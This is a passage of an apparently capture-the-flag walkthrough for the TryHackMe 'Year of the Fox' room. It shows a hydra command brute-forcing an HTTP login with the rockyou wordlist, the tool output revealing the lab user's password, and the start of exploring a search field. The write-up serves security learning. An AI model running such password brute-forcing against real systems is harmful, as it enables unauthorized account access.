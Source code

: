 ~~~
┌──(user㉿Y0B01)-[~/Desktop/walkthroughs/thm/Year_of_the_Fox]
└─$ hydra -l rascal -P /usr/share/wordlists/rockyou.txt $IP http-get
Hydra v9.3-dev (c) 2021 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2021-11-14 00:49:34
[WARNING] You must supply the web page as an additional option or via -m, default path set to /
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344398 login tries (l:1/p:14344398), ~896525 tries per task
[DATA] attacking http-get://10.10.64.137:80/
[STATUS] 2762.00 tries/min, 2762 tries in 00:01h, 14341636 to do in 86:33h, 16 active
[STATUS] 2660.67 tries/min, 7982 tries in 00:03h, 14336416 to do in 89:49h, 16 active
[80][http-get] host: 10.10.64.137   login: rascal   password: laila
1 of 1 target successfully completed, 1 valid password found
~~~

rascal's password: `laila`

* Note: The passwords are randomly generated at boot, so you need to brute-force the password, if the machine is restarted.

### Rascal's Search System

Now that we are logged in, we can see the content of the webpage. There is an input field. I played around with it and found out that it is a search engine that searches for txt files. If you enter an empty string, it will list three files:

<p align="center"><img src="./files/searchEngine.png"></p>
